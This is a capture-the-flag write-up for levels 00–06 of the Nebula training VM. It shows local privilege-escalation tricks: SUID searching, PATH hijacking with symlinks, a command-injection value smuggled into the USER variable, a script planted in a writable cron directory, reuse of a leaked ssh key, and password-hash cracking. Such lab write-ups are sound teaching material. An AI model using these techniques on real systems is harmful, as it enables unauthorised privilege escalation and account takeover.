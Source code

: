 # The Writeup for Nebula Level

## Introduction

This writeup is for Nebula level in [exploit-exercises.com] (https://exploit-exercises.com/nebula/).
Users can download a virtual disk file and setup a virtual machine to do exercises. The login user/password pair is nebula/nebula, which also contains the sudo permission. Regarding each level, users can apply levelXX/levelXX user/password pair to challenge each level.

Regarding the emulated screen is not friendly. We can setup ssh and login remotely. However, please generate RSA and DSA key pair firstly.

```
ssh-keygen -t rsa -f /etc/ssh/ssh_host_rsa_key
ssh-keygen -t dsa -f /etc/ssh/ssh_host_dsa_key
service ssh restart
```   

Then ssh from your local terminal. The IP address depends on your Network configuration of Virtual Box. I chose NAT mode and set port forward.

```
ssh -p 1222 nebula@127.0.0.1
```

## Writeup

### Level00

Firstly, please login as level00 with the password of level00.

The mission is to find a Set User ID program that will run as the “flag00” account.

After check the manual of `find` command, the command is followed.
 
```
find / -perm -4000 -user flag00 > result.log
cat result.log
```

The aim program is `/rofs/bin/.../flag00` and the output is that `Congrats, now run getflag to get your flag!`

The fullpath of the flag program is `/bin/getflag`.

### Level01
The vulnerability of this level is about PATH variable in the environment. We can set current directory as PATH by command `env PATH=.`, then link `echo` to flag program.

The following shell script shows the exploit process.

```
ln -s /bin/getflag echo
env PATH=. /home/flag01/flag01
```

### Level02
The vulnerability of level02 is about shell command injection.

The following shell script will load flag program.

```
ln -s /bin/getflag x
env PATH=. USER='hacked; ./x' /home/flag02/flag02
```

### Level03
The vulnerability is about a writable crontab directory. The permission of `writable.d` is `0777`, which means any one is able to add a file in this directory. As any scripts in this directory will be executed by writable.sh, I just put a script to load flag program.

The content of the script is followed.

```
#!/bin/sh
/bin/getflag > /tmp/level03.log
``` 

After a short time (5 minutes), the script will be executed and the log file can be found.

### Level04
It is not a good practice that restricting access file based on filename, because soft link can be used to bypass such control.

```
ln -s /home/flag04/token x
/home/flag04/flag04 x
```

The output is `06508b5e-8909-4f38-b630-fdb148a848a2` .

### Level05
In the home of user level05, `.backup` directory can be read by others. `backup-19072011.tgz` is stored in this directory. I decompressed it and found private key for ssh.

The following ssh command will be used to login without password.

```
ssh -i ./id_rsa flag05@localhost
```

### Level06
The password of user `flag06` is followed UNIX style. The hash value is stored in `/etc/password`.

`flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh`

The hash can be cracked by John the Ripper on Kali.

save user:hash into a file named test_pass.txt and apply this command to crack.

`john test_pass.txt `

The output shows the password is `hello`

```
root@kali:/tmp# john test_pass.txt 
Loaded 1 password hash (Traditional DES [128/128 BS SSE2-16])
hello            (flag06)
guesses: 1  time: 0:00:00:00 DONE (Mon Dec 21 12:18:25 2015)  c/s: 74200  trying: 123456 - thebest3
Use the "--show" option to display all of the cracked passwords reliably
```

### Level07
TBC 

## Conclusion

## Reference
